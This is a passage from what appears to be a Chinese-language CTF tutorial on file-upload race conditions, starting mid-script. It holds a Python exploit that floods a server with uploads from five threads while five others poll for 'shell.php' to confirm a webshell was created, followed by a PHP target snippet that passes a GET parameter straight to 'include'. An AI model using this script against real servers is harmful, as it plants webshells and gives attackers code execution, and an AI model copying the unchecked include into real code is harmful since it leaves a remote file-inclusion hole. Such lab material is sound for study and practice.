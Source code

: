 ```python

cookies = {
    'PHPSESSID': sessionid
}

# 上传文件函数
def upload_file():
    while True:
        response = requests.post(url, data=data, files=file, cookies=cookies)
        time.sleep(1)  # 为了避免发送请求过快，可以适当增加间隔时间

# 检查文件是否已创建
def check_file():
    while True:
        r = requests.get(url + 'shell.php')
        if r.status_code == 200:
            print('Webshell created successfully')
            print(r.text)
            break
        else:
            print('error：', r.status_code)
        # time.sleep(1)  # 为了避免发送请求过快，可以适当增加间隔时间

# 创建并启动线程
threads = []
for _ in range(5):  # 创建5个上传线程
    t = threading.Thread(target=upload_file)
    t.start()
    threads.append(t)

for _ in range(5):  # 创建5个检查线程
    t = threading.Thread(target=check_file)
    t.start()
    threads.append(t)

# 等待所有线程完成
for t in threads:
    t.join()
```


### get表单类型

对post类型稍加修改

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include$_GET[1];
```
